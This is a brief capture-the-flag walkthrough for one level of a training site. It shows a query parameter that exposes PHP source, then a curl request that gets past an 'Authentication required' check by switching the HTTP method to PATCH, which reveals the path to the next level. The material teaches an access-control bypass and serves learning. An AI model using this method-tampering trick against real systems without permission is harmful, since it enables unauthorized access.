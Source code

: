 # Level-16

Level16-17 (https://matrix.voorivex.academy/morPheus-vS-sMith!)

send this request:

```text
https://matrix.voorivex.academy/morPheus-vS-sMith!/?show-me-the-codes
```
you will get a php code :

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

# require_once("./restrict/next.php");
?>
```

send this request :

```text
curl -v https://matrix.voorivex.academy/morPheus-vS-sMith!/restrict/next.php
```

you will get this error:

```text
Authentication required
```

according to the third picture you should change your method so try different methods finally `PATCH` works

```text
curl -X PATCH https://matrix.voorivex.academy/morPheus-vS-sMith!/restrict/next.php
/the-end-of-m0rpheus
```

go to :

```text
https://matrix.voorivex.academy/the-end-of-m0rpheus
```
